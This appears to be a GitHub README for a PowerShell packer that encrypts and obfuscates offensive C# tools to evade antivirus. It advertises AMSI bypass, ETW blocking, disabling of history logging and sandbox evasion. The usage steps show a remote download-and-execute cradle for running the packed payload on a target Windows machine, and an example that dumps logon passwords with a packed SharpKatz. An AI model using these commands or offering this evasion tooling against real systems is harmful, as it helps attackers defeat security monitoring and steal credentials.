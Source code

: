 ### Invoke-PoSH-CsharpPacker v2.0
--------------------------------------
'Invoke-PoSH-CsharpPacker' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file.

_Work in progress / Tests:   
I tested successfully my packer script with several C# tools including 'Rubeus', 'SharpKatz', 'SharSecDump', 'SharpUp' and 'SharpChromium' on a Windows 
server 2016 with 2 AV solutions enabled and up-to-date (including Windows Defender).  
However, unlike for Windows server 2016, the packed scripts are blocked on Windows 10 laptops when Windows Defender is enabled._

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. Rubeus.exe, Sharpkatz.exe) stored locally or on a remote web server.  
```
PS C:\> Import-Module ./Invoke-PoSH-CsharpPacker.ps1
PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
--- or ---
PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
```
PS C:\> Import-Module ./Invoke-PoSH-CsharpPacker.ps1
PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
--- or ---
PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your (C#) .NET executable file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1'); 
--- or ---
PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
``` 
  - Step 3. Execute the packed version of your (C#) .NET executable file   
    - Generic command: ``` PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...``` 
    - Exemple with a packed version of Rubeus.exe: ```Invoke-Packed-NET-Executable logonsession /current```  
    - Example with a packed version of Sharpkatz.exe: ```Invoke-Packed-NET-Executable --Command logonpasswords``` 


#### LICENSE
  - GNU General Public License v3.0

